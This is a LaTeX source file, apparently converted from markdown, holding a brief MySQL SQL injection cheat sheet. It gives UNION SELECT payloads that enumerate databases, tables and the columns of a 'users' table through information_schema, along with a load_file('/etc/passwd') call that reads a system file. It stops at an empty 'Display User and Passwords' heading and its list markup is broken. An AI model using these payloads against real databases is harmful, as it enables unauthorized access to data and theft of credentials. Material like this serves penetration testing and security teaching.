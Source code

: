 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{enumerate}
  Usefull functions to be used in order to retrieve relevant informations:

  \begin{itemize}
  \tightlist
  \item
    database()
  \item
    user()
  \item
    load\_file(`/etc/passwd')
  \end{itemize}
\item
  Get all the table names from database

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select table_name,2,3,4 from information_schema.tables where table_schema = }\StringTok{"database"}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}
\item
  Get all databases

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select schema_name,2,3,4 from information_schema.schemata}\KeywordTok{;}
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select schema_name,2,3,4 from information_schema.schemata limit 1,1}\KeywordTok{;} \CommentTok{#show the first database}
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select schema_name,2,3,4 from information_schema.schemata limit 2,1}\KeywordTok{;} \CommentTok{#show the second database}
\end{Highlighting}
\end{Shaded}
\item
  Get Columns name of a table

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select column_name,2,3,4 from information_schema.columns where table_schema = }\StringTok{"database"}\NormalTok{ and table_name = }\StringTok{"users"}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}
\item
  Display User and Passwords


\end{enumerate}
\end{document}
